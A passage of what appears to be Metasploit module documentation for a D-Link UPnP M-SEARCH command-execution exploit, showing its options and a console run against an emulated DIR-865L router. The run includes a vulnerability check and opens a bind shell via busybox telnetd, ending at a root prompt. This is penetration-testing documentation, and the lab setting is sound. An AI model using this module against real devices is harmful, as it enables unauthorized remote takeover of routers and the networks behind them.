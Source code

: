 ```shell

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/bind_busybox_telnetd):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   LOGIN_CMD  /bin/sh          yes       Command telnetd will execute on connect
   LPORT      4444             yes       The listen port
   RHOST      192.168.0.1      no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.
```

## Options
### HTTP_PORT
Port setting where the HTTP and SOAP service is running, typically port 80.
This is used to discover the d-link hardware and version information by scraping the web or soap response.

## Scenarios
###  FirmAE D-Link DIR-865L Router Emulation Unix Command -  cmd/unix/bind_busybox_telnetd
```shell
msf exploit(linux/upnp/dlink_upnp_msearch_exec) > check

[*] Checking if 192.168.0.1:1900 can be exploited.
[*] 192.168.0.1:1900 - The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
msf exploit(linux/upnp/dlink_upnp_msearch_exec) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:1900 can be exploited.
[+] The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
[*] Executing Unix Command for cmd/unix/bind_busybox_telnetd
[*] Started bind TCP handler against 192.168.0.1:4444
[*] Command shell session 1 opened (192.168.0.2:42349 -> 192.168.0.1:4444) at 2023-10-17 18:35:36 +0000

Shell Banner:
_!_

 # uname -a
uname -a
Linux dlinkrouter 4.1.17+ #28 Sat Oct 31 17:56:39 KST 2020 mips GNU/Linux
 # hostname
hostname
dlinkrouter
```